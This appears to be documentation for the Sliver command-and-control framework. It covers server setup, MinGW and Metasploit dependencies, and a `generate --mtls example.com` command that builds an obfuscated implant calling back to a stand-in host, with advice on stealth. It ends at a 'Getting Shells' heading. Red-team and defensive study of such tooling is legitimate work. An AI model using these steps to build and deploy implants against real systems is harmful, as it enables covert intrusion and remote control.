 ## Server Setup

The server supports Linux, Windows, and MacOS however we recommend running the server on a Linux host, some features may be more difficult to get working on a Windows or MacOS server but all basic built-in functionality should work fine.

Download the latest [release](https://github.com/BishopFox/sliver/releases) for your platform, and just run the binary.

__NOTE:__ Sliver has two external dependancies for optional features: MinGW and Metasploit. To enable shellcode/staged payloads you need to install MinGW. To enable MSF integrations you'll need Metasploit installed.

The `Dockerfile` build of Sliver includes both MinGW and Metasploit, but if you plan to run the server using Docker you'll need to forward the appropriate TCP ports (e.g. 80, 443, 31337) yourself.


### MinGW Setup

In order to enable shellcode/staged/DLL payloads you'll need to install MinGW on the server (clients connecting to the server do not need it installed). By default Sliver will look in the usual places for MinGW binaries but you can override this using the [environment variable](https://github.com/BishopFox/sliver/wiki/Environment-Variables) `SLIVER_CC`.

#### Linux

```
apt-get install mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

#### MacOS

```
brew install mingw-w64
```

### Metasploit Setup

We strongly recommend using the [nightly framework installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers), Sliver expects version 5 or later.

## Generating Implants

Generating implants is done using the `generate` command, you must specify at least one C2 endpoint using `--mtls`, `--http`, or `--dns`. Note that when an implant attempts to connect to an endpoint specified using `--http` it will try both HTTPS and then HTTP (if HTTPS fails). We recommend using mutual TLS (`--mtls`) whenever possible. You can also specify an output directory with `--save`, by default the implant will be saved to the current working directory.

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop
[*] Generating new windows/amd64 Sliver binary
[*] Symbol obfuscation is enabled, this process takes about 15 minutes

```

__IMPORTANT:__ The symbol obfuscation process can take 15+ mintues to complete depending on your server's CPU resources. You can skip this step with `--skip-symbols` but a lot of sketchy information will end up in the binaries that get generated. You should only use this flag if you're just playing around, or do not care about stealth.


## Getting Shells